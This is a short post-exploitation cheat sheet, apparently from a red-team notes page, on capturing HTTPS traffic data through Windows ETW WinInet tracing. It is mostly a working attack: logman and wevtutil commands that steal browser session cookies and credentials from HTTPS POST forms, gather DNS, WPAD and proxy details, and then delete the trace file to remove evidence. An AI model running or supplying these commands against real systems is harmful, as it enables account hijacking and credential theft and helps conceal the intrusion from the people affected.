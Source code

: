# Sidejacking SSL Cookies

Activate the event tracing for the WinInet process. Wait for the target to do web browsing activity.

```
C:\> logman.exe start CookieStealer -p Microsoft-Windows-WinInet -o C:\temp\cookiesteal.etl -ets
```

Steal the cookies.

```
C:\> wevtutil.exe qe C:\temp\cookiesteal.etl /lf:true /f:Text | find.exe /i "cookie added"
```

Steal credentials from HTTPS form websites via HTTP POST request.

```
C:\> wevtutil.exe qe C:\temp\cookiesteal.etl /lf:true /f:Text | find.exe /i "POST"
```

Monitor activities for additional information such as, DNS requests, Proxy information, DNS Cache snooping and more.

```
C:\> wevtutil.exe qe C:\temp\cookiesteal.etl /lf:true /f:Text | find.exe /i "hostname"

C:\> wevtutil.exe qe C:\temp\cookiesteal.etl /lf:true /f:Text | find.exe /i "WPAD"

C:\> wevtutil.exe qe C:\temp\cookiesteal.etl /lf:true /f:Text | find.exe /i "DNS Cache"
```

Once you've collected for what you're looking for deactivate event logging and delete the cookie.

```
C:\> logman.exe stop CookieStealer -ets

C:\> del C:\temp\cookiesteal.etl
```

---
## References

- [Security Weekly: Sidejacking SSL Cookies (and more) with ETW – Post Exploitation](https://www.scmagazine.com/sw-article/sidejacking-ssl-cookies-and-more-with-etw-post-exploitation)